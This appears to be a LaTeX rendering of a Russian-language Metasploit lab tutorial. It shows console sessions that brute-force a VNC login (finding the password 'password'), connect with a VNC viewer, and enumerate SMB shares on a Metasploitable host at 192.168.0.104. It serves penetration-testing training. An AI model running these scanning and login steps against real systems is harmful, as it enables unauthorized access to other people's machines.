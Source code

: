 \documentclass{article}
\begin{document}
\begin{verbatim}
msf > search vnc

Matching Modules
================

   Name                                               Disclosure Date  Rank     Description
   ----                                               ---------------  ----     -----------
   auxiliary/admin/vnc/realvnc_41_bypass              2006-05-15       
   normal   RealVNC NULL Authentication Mode Bypass
   auxiliary/scanner/vnc/vnc_login                                     
   normal   VNC Authentication Scanner
   auxiliary/scanner/vnc/vnc_none_auth                                 
   normal   VNC Authentication None Detection

...

msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTS 192.168.0.104
RHOSTS => 192.168.0.104
msf auxiliary(vnc_login) > set THREADS 4
THREADS => 4
msf auxiliary(vnc_login) > run

[*] 192.168.0.104:5900 - Starting VNC login sweep
[+] 192.168.0.104:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


root@kali:~# xtightvncviewer 192.168.0.104
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
\end{verbatim}

\paragraph{Получить список директорий в общем доступе по протоколу SMB}
~

\begin{enumerate}
\item При помощи команды search находим подходящий модуль
\item Устанавливаем модуль в качестве используемого
\item Устанавливаем параметры модуля (количество ядер и адрес удаленного хоста)
\item запускаем модуль
\end{enumerate}

\begin{verbatim}
msf > use auxiliary/scanner/smb/smb_enumshares 
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.0.104
RHOSTS => 192.168.0.104
msf auxiliary(smb_enumshares) > set THREADS 4
THREADS => 4
msf auxiliary(smb_enumshares) > run

[+] 192.168.0.104:139 - print$ - (DISK) Printer Drivers
[+] 192.168.0.104:139 - tmp - (DISK) oh noes!
[+] 192.168.0.104:139 - opt - (DISK) 
[+] 192.168.0.104:139 - IPC$ - (IPC) IPC Service (metasploitable 
server (Samba 3.0.20-Debian))
[+] 192.168.0.104:139 - ADMIN$ - (IPC) IPC Service 
(metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{verbatim}
\end{document}
